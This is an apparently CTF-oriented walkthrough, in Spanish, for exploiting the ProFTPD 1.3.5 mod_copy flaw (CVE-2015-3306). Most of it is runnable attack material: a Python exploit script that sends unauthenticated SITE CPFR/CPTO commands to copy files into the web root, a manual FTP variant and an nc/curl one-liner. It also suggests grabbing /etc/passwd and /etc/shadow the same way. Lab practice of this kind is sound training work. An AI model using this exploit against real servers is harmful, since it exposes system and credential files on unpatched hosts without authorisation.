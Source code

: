 # ProFTPD CVE-2015-3306

## 🎯 Objetivo
Explotar ProFTPD 1.3.5 para extraer `/secret.txt` usando la vulnerabilidad mod_copy

## Pasos

### 1. Reconocimiento (30 segundos)
```bash
nmap -sV -p21,80 <TARGET_IP>
```
**Buscar**: ProFTPD 1.3.5 en puerto 21 + HTTP en puerto 80

### 2. Crear el Exploit (2 minutos)
Crear archivo `exploit.py`:

```python
#!/usr/bin/env python3
import socket
import sys
import requests

def exploit(target):
    # Conectar FTP
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect((target, 21))
    
    # Recibir banner
    banner = client.recv(1024)
    print(f"[+] Banner: {banner.decode().strip()}")
    
    # Copiar archivo secreto
    client.send(b"SITE CPFR /secret.txt\r\n")
    resp = client.recv(1024)
    print(f"[+] CPFR: {resp.decode().strip()}")
    
    # Moverlo a directorio web
    client.send(b"SITE CPTO /var/www/html/secret.txt\r\n")
    resp = client.recv(1024)
    print(f"[+] CPTO: {resp.decode().strip()}")
    
    client.close()
    
    # Obtener el secreto vía HTTP
    try:
        r = requests.get(f"http://{target}/secret.txt")
        if r.status_code == 200:
            print(f"[+] FLAG ENCONTRADA:")
            print(r.text)
        else:
            print("[!] No se pudo acceder al archivo")
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Uso: python3 {sys.argv[0]} <IP>")
        exit(1)
    exploit(sys.argv[1])
```

### 3. Ejecutar el Exploit (10 segundos)
```bash
python3 exploit.py <TARGET_IP>
```

### 4. Alternativa Manual FTP
```bash
ftp <TARGET_IP>
# Dentro del FTP:
quote SITE CPFR /secret.txt
quote SITE CPTO /var/www/html/secret.txt
quit

# Obtener flag:
curl http://<TARGET_IP>/secret.txt
```

## 🔍 Qué Buscar

**Respuestas Exitosas:**
- `350 File or directory exists, ready for destination name` (CPFR)
- `250 Copy successful` (CPTO)
- HTTP 200 cuando accedas al archivo

**Si Falla:**
- Probar otras rutas: `/tmp/secret.txt`, `/home/secret.txt`
- Verificar que el directorio web sea correcto

## 💡 Tips

1. **Sin autenticación**: Este exploit no requiere credenciales FTP
2. **Funciona porque**: El módulo mod_copy permite copiar archivos arbitrarios
3. **El truco**: Copiar archivos del sistema al directorio web para acceso HTTP
4. **Otros archivos**: También puedes copiar `/etc/passwd`, `/etc/shadow`, etc.

## 🚀 Comando One-Liner

```bash
echo -e "SITE CPFR /secret.txt\r\nSITE CPTO /var/www/html/secret.txt\r\nQUIT\r\n" | nc <TARGET_IP> 21 && curl http://<TARGET_IP>/secret.txt
```

4. **FLAG CAPTURADA** ✅
